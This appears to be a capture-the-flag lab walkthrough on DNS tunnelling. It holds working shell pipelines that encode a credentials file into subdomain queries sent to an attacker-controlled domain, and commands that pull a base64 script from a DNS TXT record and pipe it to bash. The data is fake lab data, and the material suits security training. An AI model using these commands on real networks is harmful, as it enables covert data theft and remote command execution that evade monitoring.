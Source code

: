 # Exfiltration over DNS

Since ``DNS`` is not a transport protocol, many organisations don't regularly monitor the DNS protocol. The `DNS` protocol 
is allowed in almost all firewalls in any organisational network, making the `DNS` protocol popular with threat actors 
to hide communications.

There are many use case scenarios, but the typical one is when the firewall blocks and filters all traffic. We can 
pass data or `TCP/UDP` packets through a firewall using the `DNS` protocol, but it is important to ensure that the 
`DNS` is allowed and resolving domain names to IP addresses.

* An attacker registers a domain name, for example, [tunnel.com](dns-conf.md) 
* The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
* The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.
* The `DNS` request is sent through the local `DNS` server and is forwarded through the Internet.
* The attacker's authoritative `DNS` (malicious server) receives the `DNS` request.
* Finally, the attacker extracts the password from the domain name.

## DNS Data Exfiltration

* Get the required data that needs to be transferred.
* Encode the file using one of the encoding techniques.
* Send the encoded characters as subdomain/labels.
* Consider the limitations of the `DNS` protocol. Note that we can add as much data as we can to the domain name, but 
we must keep the whole URL under 255 characters, and each subdomain label ca not exceed 63 characters. If we do 
exceed these limits, we have to split the data and send more `DNS` requests.

Connect to the new thm attacker machine using ssh from the jump host:

    thm@jump-box$ ssh thm@attacker.thm.com

Capture DNS requests:
	
    thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
    tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

Open a new terminal, ssh jump to victim2 from the jump host:

    thm@jump-box$ ssh thm@victim2.thm.com

Check the content of the `creds.txt` file:

    thm@victim2$ cat task9/credit.txt
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

Encode:

    thm@victim2$ cat task9/credit.txt | base64
    TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
    MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

Split the content into multiple DNS requests:

    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    TmFtZTogVEhNLXVzZX.att.tunnel.com
    IKQWRkcmVzczogMTIz.att.tunnel.com
    NCBJbnRlcm5ldCwgVE.att.tunnel.com
    hNCkNyZWRpdCBDYXJk.att.tunnel.com
    OiAxMjM0LTEyMzQtMT.att.tunnel.com
    IzNC0xMjM0CkV4cGly.att.tunnel.com
    ZTogMDUvMDUvMjAyMg.att.tunnel.com
    pDb2RlOiAxMzM3Cg==.att.tunnel.com

* `tr -d "\n"` - remove newlines.
* `fold -w18` - every 18 characters in a group
* `sed -r 's/.*/&.att.tunnel.com/'` - append the name server `att.tunnel.com` to every group

Now split every 18 characters with a dot `.` and add the name server:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.comthm@victim2:~$ 

From the victim2 machine, send the base64 data as a subdomain name via `dig` taking DNS limitations into account:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

Open a new terminal, jump to the attacker machine and check results using `tcpdump`:

    thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
    [sudo] password for thm: 
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    16:06:05.923936 IP (tos 0x0, ttl 64, id 47515, offset 0, flags [none], proto UDP (17), length 104)
        172.20.0.1.43174 > attacker.domain: 19394% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
    16:06:05.924355 IP (tos 0x0, ttl 64, id 47516, offset 0, flags [none], proto UDP (17), length 235)
        172.20.0.1.36730 > attacker.domain: 33745% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
    16:06:05.926140 IP (tos 0x0, ttl 64, id 28057, offset 0, flags [DF], proto UDP (17), length 69)
        attacker.57010 > 172.20.0.1.domain: 53575+ PTR? 1.0.20.172.in-addr.arpa. (41)
    16:06:05.926243 IP (tos 0x0, ttl 64, id 47517, offset 0, flags [DF], proto UDP (17), length 123)
        172.20.0.1.domain > attacker.57010: 53575 NXDomain* 0/1/0 (95)

Clean and restore the received data:

    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

## C2 communications over DNS

In victim2, create a `script.sh` in `/tmp`:

    thm@victim2:~$ cd /tmp/
    thm@victim2:/tmp$ nano script.sh

The code for `script.sh`:

    #!/bin/bash 
    ping -c 1 test.thm.com

Encode the script:

    thm@victim2:~$ cat /tmp/script.sh | base64
    IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K

Add it as a `TXT` `DNS` record to the `tunnel.com` domain using the web interface provided: http://MACHINE_IP/

Confirm it was added successfully:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com
    "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

Run the script (clean using `tr` and deleting any double quotes `"`):

    thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    PING test.thm.com (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
    
    --- test.thm.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms

Get the flag:

    thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
